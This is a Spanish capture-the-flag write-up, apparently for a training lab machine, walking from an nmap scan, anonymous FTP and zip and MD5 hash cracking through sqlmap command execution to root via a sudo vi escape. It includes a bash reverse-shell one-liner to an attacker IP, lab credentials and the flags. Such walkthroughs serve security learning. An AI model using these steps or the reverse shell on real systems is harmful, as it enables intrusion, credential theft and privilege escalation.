Jorge Marco Arráez

Temas tratados:

*   Crackeo de fichero .zip

*   Contraseñas a partir de hashes

*   Vulnerabilidades de bases de datos

## [](#header-3) 1)   Besides SSH and HTTP, what other service is hosted on this box?

```
nmap -sCV --min-rate 5000 -n -oG nmap/allPorts -Pn $IP
```

FTP en el puerto 21
SSH en el puerto 22 -> Versión: OpenSSH 8.0p1 Ubuntu 6ubuntu0.1
HTTP en el puerto 80 -> Versión del servidor: Apache httpd 2.4.41 ((Ubuntu))

La página web es la siguiente:



## [](#header-3) 2)    This service can be configured to allow login with any password for specific username. What is that username?


Como ya hemos visto en máquinas anteriores, ftp permite registrarse sin contraseña al usuario "anonymous".


## [](#header-3) 3)  What is the name of the file downloaded over this service?

al conectarme con ftp, veo que usa la versión vsFTPd 3.0.3

```
username = "anonymous"
password = ""
get backup.zip
```

## [](#header-3) 4) What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

{width=width height=height}

```
zip2john backup.zip > hash.txt

john -w=/home/jorge/Descargas/rockyou.txt hash.txt
john --show 
```

la contraseña es: 741852963


## [](#header-3) 5)  What is the password for the admin user on the website?

La contraseña no está en plano en el arhchivo .php, lo que está es el hash md5 de la contraseña.



El hash es: "2cb42f8734ea607eefed3b70af13bbd3"

Con crackstation.net podemos encontrar la contraseña: "qwerty789"



## [](#header-3) 6)    What option can be passed to sqlmap to try to get command execution via the sql injection?

Si ejecutamos sqlmap -h para ver la ayuda del programa, vemos que la opción que nos interesa es --os-shell



## [](#header-3) 7)    What program can the postgres user run as root using sudo?

vi

## [](#header-3) 8)  Submit user flag

Usando sqlmap conseguimos una os-shell.




Donde el valor de cookie es el que obtenemos al iniciar sesion en la página como admin con la contraseña qwerty789.

obtenemos acceso a una shell donde podemos establecer una reverse shell con nuestro ordenador con 

```
bash -c "bash -i >& /dev/tcp/10.10.15.224/443 0>&1"
```




Ahora hay que convertir esta reverse shell en una reverse shell estable para poder trabajar sin que expire la sesión.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

cd /var/lib/postgresql
xxd user.txt
```



```
user=ec9b13ca4d6229cd5cc1e09980965bf7
```

## [](#header-3) 9)  Submit root flag


```
cd /var/www/html
cat dashboard.php
```



username=postgres
password=P@s5w0rd!

Podemos usar esas credenciales para establecer una sesión ssh.

```
ssh postgres@10.129.95.174
P@s5w0rd!
```

Así es más cómodo ya que no hay que estabilizar la shell.
Una vez dentro, vemos que privilegios tiene el usuario postgres



Puede ejecutar /bin/vi para editar el archivo pg_hba.conf

Busco en internet y encuentro la siguiente página:

<a href="https://gtfobins.github.io/gtfobins/vi/#sudo">

Al añadir las líneas especificadas en la sección shell b):

```
vi
:set shell=/bin/sh
:shell
```



Nos hemos convertido en root.

```
root=dd6e058e814260bc70e9bbdef2715849
```

